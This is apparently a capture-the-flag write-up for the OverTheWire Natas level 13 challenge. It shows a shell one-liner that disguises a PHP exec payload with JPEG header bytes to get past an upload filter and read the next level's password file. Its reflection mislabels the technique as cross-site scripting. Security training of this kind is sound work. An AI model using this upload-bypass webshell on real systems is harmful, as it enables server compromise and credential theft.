



This time the source code checks for the jpg extensions. 


In order to still be able to upload a php file inside, we need to add some signature bytes of the image extension. My edited php content is as such:
```
echo -e "\xff\xd8\xff\xe0\n<?php echo exec(\"cat /etc/natas_webpass/natas14\"); ?>" >> natas13.jpg
```
the `\xFF\xD8\xFF` being the jpeg header bytes and saved as a jpg file.

Then following on from the last level where we edited the file extension in the console, we can get the password.





### Reflection:
This was quite an interesting challenge that I hadn't expected cross-site scripting to be this easy. Initially, I had thought that you needed to make intricate shellcodes and hide them sneakily into files for the attack to work. However, the attack is so simple to the point that it only requires us to just add image header bytes as a facade to upload our malicious script.  
